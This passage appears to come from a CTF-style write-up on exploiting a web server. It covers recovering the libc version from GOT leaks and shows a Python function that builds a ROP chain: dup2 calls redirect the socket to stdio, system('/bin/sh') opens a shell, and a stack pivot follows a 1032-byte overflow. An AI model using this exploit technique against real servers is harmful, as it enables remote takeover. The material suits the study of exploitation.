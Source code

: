 Even after dumping the GOT, we  still don't know for sure where Libc is loaded in memory. We first
have to determine the specific version that is being used, since that will help us figure out the
offset of each function in Libc's `.text` section. To determine the  version, we need to enter at
least two different leaked pointers into a [Libc database searcher](https://libc.rip/). Using the
leaked addresses from the GOT reveals that the web server is using either v2.27 or v2.37 of
libc.so.6. Now we can compute the offset of Libc in memory and find the addresses of other functions
and symbols of interest to us.

Finally, the last step is to execute a ROP chain that calls `system("/bin/sh")` to pop a shell on
the server.

```py
def exploit(conn):
    payload  = b'GET ///\x00'           # pop r13
    payload += p64(0xaaaaaaaaaaaaaaaa)  # pop r14
    payload += p64(0xbbbbbbbbbbbbbbbb)  # pop r15

    # dup2(4, 0)
    payload += p64(pop_rdi_gadget)      # ret
    payload += p64(4)                   # pop rdi
    payload += p64(pop_rsi_gadget)      # ret
    payload += p64(0)                   # pop rsi
    payload += p64(0xcccccccccccccccc)  # pop r15
    payload += p64(dup2_addr)           # ret

    # dup2(4, 1)
    payload += p64(pop_rdi_gadget)      # ret
    payload += p64(4)                   # pop rdi
    payload += p64(pop_rsi_gadget)      # ret
    payload += p64(1)                   # pop rsi
    payload += p64(0xcccccccccccccccc)  # pop r15
    payload += p64(dup2_addr)           # ret

    # dup2(4, 2)
    payload += p64(pop_rdi_gadget)      # ret
    payload += p64(4)                   # pop rdi
    payload += p64(pop_rsi_gadget)      # ret
    payload += p64(2)                   # pop rsi
    payload += p64(0xcccccccccccccccc)  # pop r15
    payload += p64(dup2_addr)           # ret

    # Re-align the stack ...
    payload += p64(ret_gadget)          # ret

    # system("/bin/sh")
    payload += p64(pop_rdi_gadget)      # ret
    payload += p64(bin_sh_addr)         # pop rdi
    payload += p64(system_addr)         # ret

    # exit(0)
    payload += p64(pop_rdi_gadget)      # ret
    payload += p64(0)                   # pop rax
    payload += p64(exit_plt_addr)       # ret

    payload += b'A' * (1032 - len(payload))

    payload += p64(chk)
    payload += p64(rbp)

    payload += p64(pop_rsp_gadget)      # ret       <- execution starts here
    payload += p64(buf_base)            # pop rsp

    print(f'Payload:')
    # hexdump(payload)
```